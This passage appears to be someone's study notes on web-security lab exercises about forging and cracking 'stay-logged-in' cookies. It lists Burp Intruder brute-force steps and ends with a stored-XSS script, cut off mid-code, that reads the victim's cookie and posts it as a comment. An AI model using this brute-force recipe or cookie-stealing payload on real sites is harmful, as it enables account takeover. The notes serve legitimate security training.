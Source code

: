 - These rules will be applied sequentially to each payload before the request is submitted.
- Hash: MD5
- Add prefix: wiener:
- Encode: Base64-encode
- As the Update email button is only displayed when you access the My account page in an authenticated state, we can use the presence or absence of this button to determine whether we've successfully brute-forced the cookie. 
- In the  Settings side panel, add a grep match rule to flag any responses containing the string Update email. Start the attack.
- Notice that the generated payload was used to successfully load your own account page. 
- This confirms that the payload processing rules work as expected and you were able to construct a valid cookie for your own account.
- Make the following adjustments and then repeat this attack:
- Remove your own password from the payload list and add the list of candidate passwords instead.
- Change the id parameter in the request URL to carlos instead of wiener.
- Change the Add prefix rule to add carlos: instead of wiener:.
- When the attack is finished, the lab will be solved. 
- Notice that only one request returned a response containing Update email. 
- The payload from this request is the valid stay-logged-in cookie for Carlos's account.

# Continuation
- Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. 
- Using the usual techniques, such as XSS, an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. 
- If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.
- In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. 
- Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. 
- This demonstrates the importance of salt in effective encryption.

# Lab: Offline password cracking
- This lab stores the user's password hash in a cookie. 
- The lab also contains an XSS vulnerability in the comment functionality. 
- To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. 
- Then, log in as carlos and delete his account from the "My account" page.
- Your credentials: wiener:peter
- Victim's username: carlos

# My-Solution
- First I logged in and go to the comment session
- I tried simple XSS payload and it worked, And I noticed it is a stored XSS
- So I tried the following payload
```
<script>
    window.addEventListener("DOMContentLoaded", function() {
        
        var myform = new FormData();

        myform.append("postId", 2)
        myform.append("comment", document.cookie)
        myform.append("name", "You have been hacked")
        myform.append("email", "bybeejay@email.com")
        myform.append("website", "https://bybeejay.com")

        fetch("/post/comment", {
            method: "POST",
```